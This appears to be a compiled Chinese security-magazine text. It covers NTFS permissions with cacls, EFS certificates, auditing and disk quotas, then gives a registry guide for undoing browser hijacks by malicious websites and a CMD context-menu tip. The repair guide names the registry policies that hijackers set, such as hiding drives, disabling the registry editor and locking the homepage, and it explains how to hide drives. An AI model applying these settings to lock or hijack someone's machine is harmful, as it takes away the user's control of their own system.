## 2.5 命令行的权限设置工具

关于权限设置的方法，大概就上述这些了。上面所讲的都是基于 GUI 界面的权限设置，这一部分说一下命令行工具。微软也为我们提供了相当充足的命令行工具，所以我们也不要浪费。

命令行工具名为 cacls，直接输入 cacls 即可看到 cacls 的帮助信息。

这里，我们可以通过 `cacls File/Dir` 的方式来查看某一文件或某一文件夹的权限设置。例如，还是针对刚才的 test 文件夹，我们可以进入其所在磁盘后输入：`cacls test`，即会返回如下信息：

```bash
F:\>cacls test
E:\test COMMONOR-3CD916\Administrator:(OI)(CI)F
          COMMONOR-3CD916\ntfs-test:(OI)(CI)R
```

返回信息一共有两行：

- 第一行内容为 `COMMONOR-3CD916\Administrator:(OI)(CI)F`，说明主机名为 COMMONOR-3CD916 的机器上的 administrator 用户对该文件夹权限为完全控制（F）。
- 第二行 `COMMONOR-3CD916\ntfs-test:(OI)(CI)R`，说明 ntfs-test 用户对该文件夹权限为只读和运行（R）。

关于命令行下的设置不做过多讲解，因为 cacls 的帮助信息都是中文信息。但是这里有一条命令比较有用，所以特别提一下：`cacls test /E /G ntfs-test:F`

这是针对 test 目录的修改。这条命令使用户 ntfs-test 对其有完全控制权限。这里注意，`/E` 参数绝对不能少，否则 ntfs-test 用户的权限将替换原来 test 文件夹上所有用户的权限。

也就是说，如果命令变成这样：`cacls test /G ntfs-test:F`，那么再打开 test 文件夹的安全属性进行查看时就会发现，权限设置中只有 ntfs-test 用户一人，其他用户的权限将被删除。

# 三、NTFS 磁盘的加密

## 3.1 加密

上一部分说过了 NTFS 的访问控制设置方法和一些问题，这里就说一下 NTFS 磁盘上的文件加密以及它所带来的问题。

对于加密这一过程来说，对用户而言非常简单。还以上面提到的 test 文件夹为例，右键选择属性，在“常规”卡片上会发现，这里比 FAT32 磁盘上多了个“高级”按钮（图 11）。

点击“高级”按钮后，会出现“高级属性”。在此可以进行压缩和加密两种操作。压缩是为了节省磁盘空间而设计的，压缩方法区别于正常压缩软件，对使用了压缩的用户而言，压缩和解压缩过程不可见。

至于加密，就是我们要讲的。这里只要选择“加密内容以便保护数据”（图 12），然后点确定，会出现提示框询问加密过程是只针对文件夹，还是针对文件夹以及文件夹内全部内容（如图 13）。建议选择第二项“将更改应用于该文件夹、子文件夹和文件”，然后点确定完成。

如果文件比较多，加密过程可能需要一段时间。在加密过程中，千万不要中途取消，否则很可能导致未知后果。

对于被加密的文件，只有管理员和加密该文件的用户才能访问，而这里所说的管理员也只限于 administrator，并非任何一个加入 administrators 组的管理员都能访问。

因为默认情况下 administrator 是默认的加密恢复代理，因此管理员对任何加密文件的访问必须可行。至于其他管理员，虽然可以获取文件所有权、修改权限等，但即使完成这些操作，也无法访问该加密文件。

## 3.2 证书

EFS 加密很好地保护了数据，但也引起了一个问题：如果用户 A 加密了某个文件，而用户 B 并非 administrator，那么用户 B 如何获取加密文件的信息呢？

微软为此提供了解决方案——用户证书。用户 A 在加密后，可以通过创建用户证书并将证书文件交给用户 B。用户 B 在拿到证书后，只要将用户 A 的证书导入，就能够查看用户 A 所有加密文件的内容。

## 3.3 导出和导入证书

按照上面所述，我们先来导出加密用户的证书。开始→运行→输入 mmc，打开控制台，然后选择“控制台→添加/删除管理单元”，再按“添加”，找到“证书”一项，选中并按添加。出现对话框后选择“我的用户帐户”（如图 14），点完成。然后关闭窗口，在控制台上就出现了“证书”一项（如图 15）。

然后依次选择：证书→个人→证书，这时右边窗口会出现一个证书图标，其名称与当前用户名一样。右键选择它，再选择“所有任务”，在这里有“导出”一项，选择它（图 16）。

然后按照默认值一直选择“下一步”。当要求密码时，设置一个密码，密码一定要足够强，因为对用户操作过程来说，密码是保护证书的唯一一道屏障（如图 17）。输入完密码后，选择一个路径和名称保存证书，然后一直点下一步，直至提示证书成功导出（如图 18）。至此，当前用户证书就成功导出了。

然后，在想要使用加密文件的用户环境下，双击刚才导出的证书，按照提示输入密码（如图 19），随后一直 Next 直至提示导入成功（如图 20）。这时，该用户就可以访问证书所有者的全部加密文件内容了。

以上讲述了 NTFS 文件系统下的文件加密、证书的使用方法。最后需要提醒大家：在操作系统中，若使用了 NTFS 文件系统并使用了加密功能，那么在重新安装新的操作系统时，一定要记得导出证书，否则加密文件将无法使用。

# 四、NTFS 文件系统下的对象访问审核

在 NTFS 文件系统引入后，Win32 系统具有了访问审核这一新的安全策略。只是由于 Windows 对对象访问审核并非完全主动性策略，因此默认情况下并不开放。我们要通过组策略打开它，才能在 NTFS 磁盘上进行进一步设置。

首先依次运行“开始→运行→gpedit.msc”，打开组策略（如图 21）。然后在组策略中依次选择“计算机配置→Windows 设置→安全设置→本地策略→审核策略”。在右边窗口可以看到一些策略项（如图 22），策略名后的“本地策略”和“有效策略”显示了本地设置以及哪些设置目前正在生效。

这里的设置除了对象访问以外还有其他审核，例如登录事件审核。大家可以根据需要设置。这里先说对象审核：双击“审核对象访问”这一项（如图 23），可以看到“成功”和“失败”两项可选。成功的意思是如果某个用户对某个对象（文件、文件夹或者磁盘）成功进行了访问，那么事件将被记录；失败也是类似的。至于上面说的某个用户，则需要在 NTFS 磁盘属性上设置，后面会讲到。

这里先根据需要选择“成功”或“失败”，当然也可以都选，我这里都选上了，选择完后点确定。

选择完成后，如果不重启，等待策略自动刷新后，就会在策略名后看到“本地设置”和“本地有效设置”中，“审核对象访问”显示为“成功，失败”（如图 24）。

至此，对象访问审核策略已经打开了。接下来需要在磁盘属性中设置，究竟哪一个用户在对哪一个对象发生成功和失败访问后会被记录下来。

随便打开一个 NTFS 磁盘下文件夹的属性，还是到“安全”卡片中，再点“高级”，进入该文件夹“访问控制设置”界面，然后选择“审核”卡片（如图 25）。这里可以看到审核列表是空的，因为默认审核没有打开，因此审核策略下也是空的。

在该界面上点“添加”按钮，新增审核策略。点完添加后，会让用户选择一个帐号。这里假设要对 administrator 进行审核，那么就选择 administrator（如图 26）。选择完成后点确定，会自动弹出“审核项目”窗口，这里有一些内容（如图 27）。这里的项目相对较为细致，而且分为“成功”和“失败”两项。只要根据要求，在某个需要审核的事件上勾选“成功”和“失败”即可（因为刚才我们把对象审核的成功和失败都打开了，所以这里两项都选上）。

例如这里选择第一项“遍历文件夹/运行文件”的成功和失败两项。这时注意下面有一个可勾选项，名为“将这些审核项目只应用到这个容器中的对象和/或容器上”。这类似于权限继承：如果勾选，该目录的子目录、孙子目录和目录下文件都会有这样的审核。按需选择即可，这里我勾选了。然后一路点确定即可。

设置完成后访问一下目录看看。因为我选择的是“遍历文件夹/运行文件”，所以只要随便访问一下文件夹就会看到效果。访问完成后，到 Windows 事件查看器中查看“安全日志”，就会发现各种审核策略的报警信息（如图 28）。

日志查看方法和普通日志一样。例如随便打开一条（如图 29），这条信息中就记录了一条访问成功事件，里面记录了用户名和机器名等基本信息。正如前面提到过的，Windows 的审核并非完全主动审核，因此其审核记录的信息相对其他系统不够全面，这是一个遗憾。

虽说如此，但个人认为 Windows 的域模型很好地弥补了这一点：当把策略作为整个域的策略下发时，只要看到某个帐号和计算机名，绝大多数情况下都能快速、准确地定位到某个人，尤其在大型企业更是如此。话题扯远了，关于审核策略的设置问题，这部分就讲这么多了。

## NTFS文件系统下的磁盘配额

磁盘配额也是 NTFS 文件系统中的一个新功能，其作用就是用来限制某个用户所分配磁盘空间的访问。例如，一个 10G 的分区，我们可以通过使用磁盘配额功能让某个用户只能看到 1G 的大小，这就是磁盘配额的功能。相信不少读者一定接触过虚拟主机，任何一个虚拟主机都是有空间限制的，其实，在 Win2K 系统上，其空间大小的限制就是通过磁盘配额完成的。

由于配额这一项是针对磁盘的，所以，如果选择某一文件夹的属性时，是看不到“配额”这项卡片的，只有选择磁盘的属性时才可以（如图30）。

磁盘配额的设置方法很简单，选择配额卡片后，点选“配额项”按钮，会弹出一个窗口（如图31）。在该窗口中，选择菜单：配额→新建配额，这时会弹出窗口要求选择账号（如图32），这里选择一个想做配额的用户，我选择 test 用户然后点确认。这时会弹出一个新的窗口，窗口标题是“添加新配额项”（如图33）。

到这里，就很明显了：勾选“将磁盘空间限制为”，然后后面有大小可以选择，大小后面还有单位，例如这里我们限制为 1G 大小。后面还有一个警告，就是当这个用户使用的空间达到多少时我们就发出警告，这里我也选择了 1G（如图34）。然后，退出配额项窗口后，在磁盘属性的配额卡片上选择“启用配额管理”（如图35）。由于当前用户是 administrator，所以下面选择“不限制磁盘使用”。然后，注销当前用户，用刚才设置了配额的 test 用户登录系统，来到设置了磁盘配额的磁盘下，选择属性查看磁盘的大小，会发现大小只有 1G，如图36。图中左边是用户 test 看 E 盘的情况，而右图中则是 administrator 查看 E 盘属性的情况，一目了然。从这张图的对比中，就应该很容易发现磁盘配额的效果了。

磁盘配额算得上是 NTFS 的一个很人性化也很安全化的设计，呵呵。怎么样，是不是有人在乱用你的机器？现在赶快给他建个账号，给做个配额，限制他一下吧。

# 六、结束语

关于 NTFS 的一些功能描述和使用就简单讲这么多了，本文将 NTFS 的绝大部分功能做了讲述，但是一些细节之处可能还不够详细。对此有兴趣的读者，强烈建议参阅一些相关的书籍，那你们将会更全面地认识到 NTFS 文件系统的强大。

## 我的IE我做主：详解IE安全应用

现在的站点，在广告上下的工夫可不少，各种各样的广告模式屡见不鲜：弹出式窗口、浮动式窗口、悬停式等等。而随着 Flash 的发展，其也在广告上显身手（当然 Flash 中也是可以放“木马”的）。这些形形色色的广告让人见了就心烦，还会占用系统资源，加重系统负担，恶意的网站甚至在其中挂“木马”，修改、控制你的计算机……一般说来我们可以通过修改 IE 属性和借助第三方软件来解决这些烦人的“苍蝇”。本文将重点阐述怎样利用系统的安全设置来达到我们满意的效果。

打开 IE 属性，如图1。我们可以右击桌面上的 IE 图标选择“属性”，打开 IE 的属性；或打开 IE 后，在工具栏上执行：“工具”→“Internet 选项”；也可以在“控制面板”中双击“Internet 选项”打开 IE 属性。对系统熟悉的朋友也可以在系统的 system（或 system32）中找到一个名为“inetcpl.cpl”的 CPL 文件（控制面板文件），双击打开 IE 属性。

# 七、设置与应用

## 1. 屏蔽网页中的广告

网页中的广告有很多种，具体的屏蔽过程如下：

在 IE 属性中，切换到“安全”选项卡，如图2。  
我首先在“请为不同区域的 Web 内容指定安全设置”框中选择“Internet”，这样我们接下来的操作才是对 Internet 生效，因为我们要屏蔽的广告肯定是在互联网上的 Web 页广告。首先我们把安全级别调到最高，然后点击“自定义级别(C)...”打开一个新的对话框，在这里我们可以把 ActiveX 控件和插件、脚本等都禁止掉，如图3。

我们再打开 IE 属性里“高级”卡，取消一些多媒体功能，比如：禁止播放、显示图片、动画、声音等等，如图4，勾中为启用该功能。

这里我提醒下大家，当我们对 PC 进行了上述的操作后，弹出窗口和浮动广告（Java 脚本实现该功能）等等都消失了，但是这样多少会影响我们正常浏览 Web 页，各位依自己的情况设置，也可以借助第三方软件。

## 2. 恶意网站

一般的恶意网站会修改你的主页，或一打开 IE 便首先转到某站点，严重的会放“木马”到你 PC 中，或是让你的爱机感染上病毒，甚至格式化你的硬盘！对于已遭毒手的朋友可以去 3721 在线帮你恢复 IE，当然你也可以照我下面说的去做 ^^。

- **中招表现：**
  - 主页被更改，在 IE 属性中改回来后重新启动 PC 又恢复到先前了。
  - IE 标题被改得乱七八糟（如图5），注意有 IE 标题栏文本是演示效果所加代码。
  - 右键菜单、工具栏、地址栏等被改，有恶意站点的链接菜单。
  - 每次进入系统后便弹出一个网站的页面。
  - 在浏览网页时右键被屏蔽。
  - 每次开机，系统自动弹出一个提示框，上面也是些乱七八糟的内容：欢迎光临某某站什么的等等。
  - 强行修改系统设置，影响正常使用计算机！

## 注册表解锁——修复利器——注册表

有时恶意网站会把注册表屏蔽，我们首先就得给注册表解锁！新建 TXT 文档，写入如下内容：

```reg
REGEDIT4
[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\System]
"DisableRegistryTools"=dword:00000000
```

将此文档另存为“magicdog.reg”，双击它，导入注册表即可。注意第一排的字母必须大写且顶格，这是硬性规定。若是 Win2K 或 WinXP，则“REGEDIT4”改为“Windows Registry Editor Version 5.00”开头。其实可以在纯 DOS（Win98）下输入如下命令：

```bat
regedit /d HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\System\DisableRegistryTools
```

如果你是 Win2K/XP/2003，就更好办了，可以在“运行”里输入“Gpedit.msc”后回车，打开“组策略”。依次展开“用户配置”→“管理模板”→“系统”，双击右侧窗口中的“阻止访问注册表编辑工具”，在弹出的窗口中选择“已禁用”，“确定”后再退出“组策略”，即可为注册表解锁。下面我说下一些修复注册表的关键键值。

## 1. 默认主页修改

打开注册表，来到如下位置：`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Internet Explorer\Main`。  
注意我画线的地方“Default_Page_URL”和“Start Page”，删除它就可以了。另外大家注意到图6键值“Window Title”的数值数据：hoho“我爱你sagi”，就是被恶意代码修改了 IE 标题内容。

我们再来到 `HKEY_CURRENT_USER\Software\Microsoft\Internet Explorer\Main`，这里有键值“Start Page”和“Window Title”，但是没有“Default_Page_URL”，而这里的“Start Page”字符串是不能删除的，否则 IE 会不能运行，但是可以修改其首页地址。

我们可以把数值数据改成我们想要的网站首页。有时我们发现主页被改掉时想通过 IE 改回来，打开 IE 却傻眼了，图8。更改主页的几个选项按钮都变为灰色不可用了。我们可以通过注册表来解出这个锁定，如果你有“Windows 按钮突破专家”也能解决一时的问题，最后还是得通过注册表彻底解除这个锁定。进入注册表 `HKEY_CURRENT_USER\Software\Policies\Microsoft\Internet Explorer\Control Panel` 下，右边窗口有个 DWORD 值“Homepage”且值为“1”，你可以改值为“0”或干脆删除该键值解除限制。

## 2. 右键菜单恶意站点链接

中毒后症状如图9。注意画线的地方呀，相信无论谁也知道，在浏览 Web 时弹出的右键中有俺的名字在上面都会觉得不正常吧？（什么你不会？哈～又一个“崇拜者”，幸福 ing……）

解决的办法：  
注册表 `HKEY_CURRENT_USER\Software\Microsoft\Internet Explorer\MenuExt`，注意这个主键下的次级主键。比如，你若中了图9的招，在该键下你绝对能找到一个名为“magicdog”的主键，把它删除就可以了！

### 3. IE工具栏/菜单栏的恶意修改

注意横线部分。这个便是恶意代码对工具栏下的毒手了。要清除画线部分的内容，打开注册表 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Internet Explorer\Extensions` 下，你会看见该主键下次级的主键，如图11。我画横线的都是 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Internet Explorer\Extensions` 下的次主键，由于从键名不好判断，所以大家得一个个展开查看。比如我展开画了线的第二个主键，可以在右窗口看到如下内容：图12画线的部分都是敏感的内容，由此我们可以推断这个键绝对有问题，一个字：删除！

俗话说斩草就得除根，我们再来到注册表：`HKEY_CURRENT_USER\Software\Microsoft\Internet Explorer\Extensions\CmdMapping`，如图13。看着画线部分是不是很熟悉呀？对咯，是 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Internet Explorer\Extensions` 下的次主键的名字嘛，呵呵，愣着干吗啊哥们，还不动手？（怎么感觉就像“黑社会”的对白一样？）我们再来看幅图，图14。

而正常的应该是图15。显示的应该是“链接”并且有链接菜单，而非“magicdog”。解决此问题，注册表：`HKEY_CURRENT_USER\Software\Microsoft\Internet Explorer\Toolbar` 下，在右边窗口把字符串值“LinksFolderName”的数据改为“链接”即可，如果嫌麻烦也可删除这个主键。

### 4. 每次进入系统后便弹出一个网站的页面

大家先看看常规的注册表启动项：`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion` 下，如图16。画线部分便是启动项的主键了，而以“Run”键最常见。一般系统里各类随机启动的程序都会在这个主键下，大家对这个主键下的键值要特别注意！比如，若一进入系统便会弹出个网站（website）的首页，那么在这个键下的某个键值或其数据内容应该包含其网址地址，大家删除掉就可以了！

## 5. 右键被屏蔽

这里大家注意我所说的是，在浏览网页时右键被屏蔽，而并非当我们在“桌面”上都无法用右键！打开注册表：`HKEY_CURRENT_USER\Software\Policies\Microsoft\Internet Explorer\Restrictions`，右边有个 DWORD 值：“NoBrowserContextMenu”，删除这个键值，解决问题。

这里我说下，有些时候我们浏览网页发现不能用右键，有些时候却又可以，这个不是我们的问题，而是 Web 作者通过 JavaScript 禁止掉了右键功能。而那种真正屏蔽了系统右键（即无论你在系统内的任何地方都是无法使用右键的），比如在“桌面”的解决方案如下：注册表键 `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer` 下，删除名为“NoViewContextMenu”的二进制键值，重启计算机生效！

## 6. 总出现对话框，需点“确定”进入

最后一种问题，出现提示框后点击“确定”便可正常进入系统了，只是觉得有点烦。这个提示框是微软自带的一个功能，通过编辑注册表、输入内容，在每次开机进入系统时便会弹出这个提示框。注册表：`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon` 下，打开右边窗口的字符串值“LegalNoticeCaption”，如图17，在框内输入你想要的内容或者清除内容，输入内容可以长达几百字呢。

关于强行修改系统设置的现象很常见，而恶意修改的地方也是五花八门。偶不可能面面俱到，只能说一些常见的，而我们的破解利器仍然是它：regedit 注册表编辑器。被攻击后，看图18：可以看到开始菜单中少了很多选项，其实注销我也是可以屏蔽掉的，只是为了好恢复才没这么做。屏蔽注销菜单：注册表 `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer`，右边窗口 `DWORD="NoLogoff"`。

大家可以看到注销和关闭计算机的一些选项变为灰色不可用了。怎么办？打开注册表：`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer`，`DWORD="NoClose"`，删除。

找回开始菜单中的“查找”菜单：注册表 `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer` 下，`DWORD="NoFind"`，删除。

找回“我的文档”：注册表 `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer`，`DWORD="NoRecentDocsMenu"`，删除。

恶意网站利用网页代码还可以通过修改注册表来隐藏你的磁盘驱动器。打开注册表来到：`HCU\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer`，找到 `DWORD` 值 `"NoDrives"`，全部删除。之后再打开“我的电脑”，各个盘又回来了。

> **小技巧**：在注册表中如果新建 `DWORD` 值并设置对应数值，或给 `DWORD` 值 `NoDrives` 设置某些数值（如 8、16 等），可以隐藏对应驱动器；不同值对应不同盘符。若想隐藏多个驱动器可使用组合值。

WinXP 系统可以用“组策略”来解除禁止。打开组策略，“用户配置→管理模板→Windows 组件→Windows 资源管理器”，如图23。

双击“隐藏‘我的电脑’中的这些指定的驱动器”，打开如图24对话框，选择“已禁用(D)”，再单击“应用(A)”→“确定”，退出组策略。搞定。

# 尾声

- 一些网站提供免费的 IE 修复，如 3721，但是别太信任这些东西，有时它可能会使你更麻烦。
- 给系统装上正版杀毒软件，并常常在网上升级，做好防御工作。
- 不浏览来历不明的网站。
- 这篇文章中用到注册表的地方很多，大家没必要苦记。

# 主题乐园


文章中繁琐的键值，当遇到文章中涉及的问题时再查阅本文也不迟，因为注册表的键值要想真的一字不差地记下来是很艰难的，再说也没那个必要。

# 独门绝招

### —— CMD 下快速进入任意目录

TLT.Song

看X已有7个月了，偶终于从对网络安全一窍不通的鸟蛋成长为一只菜鸟。今天，偶就把一个小技巧介绍给大家。

经常使用黑兵器的各位黑友们一定经常使用那黑黑的命令行窗口吧（好多很多呀）。但当我们点“开始→运行→CMD”运行后，通常都是在 `C:\DOCUMENTS AND SETTINGS\` 当前用户目录下（WINDOWS NT/2K/XP系统），如果你的黑软在其他盘符或其他目录下的话，就必须用 `cd` 命令一层层地进入。若是目录很深，或文件夹名很麻烦，那用这种手工方法的确是件十分痛苦的事。有没有简单的方法进入呢？答案是肯定的，下面请大家跟我做。

- 点击开始→运行→`regedit`，打开注册表编辑器，展开项 `[HKEY_CLASSES_ROOT\Folder\shell]`，并在其下新建一个项，命名为 `CommandPrompt`，再在右边窗口中将“默认”的值改为“从这里进入 CMD”（或改成其他你喜欢的文字）。

- 在刚才创建的 `CommandPrompt` 项下再新建一个项 `command`，并将右边窗口“默认”的键值改为 `Cmd.exe /k cd %1`（不包括引号；若是 Win9x 用户，则须将 `cmd.exe` 替换成 `command.com`）。（如图1）

改完后关闭注册表编辑器，无需重启机器。此时，你右击文件夹或盘符，并在菜单中选中“从这里进入 CMD”，不管当前目录有多深，在弹出的 cmd 窗口里显示的即为当前目录。（如图2、图3）是不是很方便？！


